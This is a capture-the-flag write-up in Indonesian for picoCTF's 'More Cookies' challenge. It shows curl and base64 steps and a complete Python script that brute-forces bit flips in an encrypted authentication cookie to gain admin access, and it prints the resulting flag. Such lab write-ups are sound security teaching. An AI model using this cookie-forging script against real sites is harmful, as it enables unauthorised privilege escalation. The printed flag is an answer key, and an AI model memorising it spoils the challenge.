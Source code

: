 # More Cookies
- Link: https://play.picoctf.org/practice/challenge/124?category=1&page=1

## Tantangan
I forgot Cookies can Be modified Client-side, so now I decided to encrypt them! http://mercury.picoctf.net:15614/

## Penyelesaian
- Sekarang kita coba akses cookie di web tersebut dengan tool `curl`
```sh
curl -I http://mercury.picoctf.net:15614/
```

- Sekarang kita coba decode value cookie `auth_name` dengan base64. Disini terlihat bahwa cookie tersebut masih terencode dengan base64
```sh
echo 'copy_cookie_disini' | base64 -d
```

- Setelah kita coba decode lagi, ternyata cookie tersebut dalam keadaan terenkripsi


- Menurut deskripsi tantangan ini, kita bisa mengubah cookie tersebut dalam bentuk yang masih terenkripsi. Namun, jika metode enkripsinya [Homomorfik](https://en.wikipedia.org/wiki/Homomorphic_encryption), perubahan yang dilakukan pada bentuk cookie terenkripsi tersebut akan mempengaruhi bentuk yang didekripsi. Ini dapat dieksploitasi menggunakan [Bit Flipping Attack](https://en.wikipedia.org/wiki/Bit-flipping_attack). Dengan harapan kita bisa mengubah plaintext pada admin dari `0` menjadi `1`
- Kita bisa lakukan Bit Flipping Attack dengan program python. Copy source code berikut ini lalu simpan dengan nama `more_cookies.py`
```sh
from pwn import *
import requests
import base64
import re

#Mengambil cookie
s = requests.Session()
r = s.get("http://mercury.picoctf.net:15614/")
cookie = s.cookies["auth_name"]
print('Cookie : ',cookie)

#Decode cookie dan convert ke byte array
raw_cookie = bytearray(base64.b64decode(base64.b64decode(cookie)))
n = len(raw_cookie)

success = False
for i in range(n):
	for j in range(8):
		mask = (1 << j)
		
		#Flip Bit
		raw_cookie[i] = raw_cookie[i] ^ mask
		
		#Inject Cookie
		new_cookie = base64.b64encode(base64.b64encode(raw_cookie)).decode("ascii")
		r = requests.get("http://mercury.picoctf.net:15614/", cookies = {"auth_name": new_cookie})
		
		#Mencari Flag dengan regex
		flag = re.search(r"picoCTF{[^}]+}", r.text)
		if flag is not None:
			print('Flag : ',flag.group(0))
			success = True
			break
		else:
			#Kembali Semula
			raw_cookie[i] = raw_cookie[i] ^ mask
			
	if success == True:
		break

```
- Setelah itu kita eksekusi program tersebut di terminal
```sh
python3 more_cookies.py
```

- Flag
```sh
picoCTF{cO0ki3s_yum_a9a19fa6}
```